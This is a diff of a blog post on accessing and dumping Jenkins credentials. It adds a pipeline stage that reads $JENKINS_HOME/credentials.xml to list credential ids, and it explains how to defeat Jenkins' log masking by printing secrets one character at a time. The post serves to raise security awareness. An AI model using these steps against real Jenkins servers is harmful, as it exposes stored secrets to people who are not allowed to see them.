

Listing credentials ids

diff --git a/blogs/2019-05-27-accessing-and-dumping-jenkins-credentials.md b/blogs/2019-05-27-accessing-and-dumping-jenkins-credentials.md
@@ -60,7 +60,7 @@ If you want you can add more secrets, but I will be using the already pre-made s
 
 Now that we've covered creating credentials let's move on to accessing them from a `Jenkinsfile`.
 
-## Jenkinsfile access
+## Secrets access from a Jenkinsfile
 
 We will be focusing on job `130-accessing-credentials`. 
 
@@ -160,20 +160,59 @@ pipeline {
       }
     }
 
+    stage('list credentials ids') {
+      steps {
+        script {
+          sh 'cat $JENKINS_HOME/credentials.xml | grep "<id>"'
+        }
+      }
+    }
+
   }
 }
-
 ```
 
 All examples for different types of secrets can be found in the official Jenkins [documentation][2]
 
-Running the job and checking the logs uncovers that Jenkins tries to redact the secrets from the build log by matching for secrets values and replacing them with stars `****`.
-
 ![](./images/2019-05-27-accessing-and-dumping-jenkins-credentials/006.png)
+
+Running the job and checking the logs uncovers that Jenkins tries to hide the secrets from the build log by matching for secrets values and redacting them with stars `****`.  
+We can see the actual secret values if we print them in such a way that a simple match and replace won't work.  
+In this case each character is printed separately and Jenkins does not redact the values.
 
 ![](./images/2019-05-27-accessing-and-dumping-jenkins-credentials/007.png)
 
+> Anyone with write access to a repository built on Jenkins can uncover all `Global` credentials by modifying a `Jenkinsfile`.
 
+> Anyone with "create job" privileges can also uncover all `Global` secrets by creating a pipeline job.
+
+### Listing ids of secrets
+
+If you don't have admin priviledges on a Jenkins you can list all credentials ids by listing the `$JENKINS_HOME/credentials.xml` file.
+
+Last stage of `130-accessing-credentials` job:
+
+```groovy
+stage('list credentials ids') {
+  steps {
+    script {
+      sh 'cat $JENKINS_HOME/credentials.xml | grep "<id>"'
+    }
+  }
+}
+```
+
+Job output listing all credentials ids:
+
+``` 
+[130-accessing-credentials] Running shell script
++ cat /var/jenkins_home/credentials.xml
++ grep <id>
+          <id>gitlab</id>
+          <id>production-bastion</id>
+          <id>joke-of-the-day</id>
+          <id>production-docker-ee-certificate</id>
+```
 
 [0]: https://github.com/hoto/jenkinsfile-examples
 [1]: https://github.com/hoto/jenkinsfile-examples/blob/master/jenkinsfiles/130-credentials-masking.groovy 
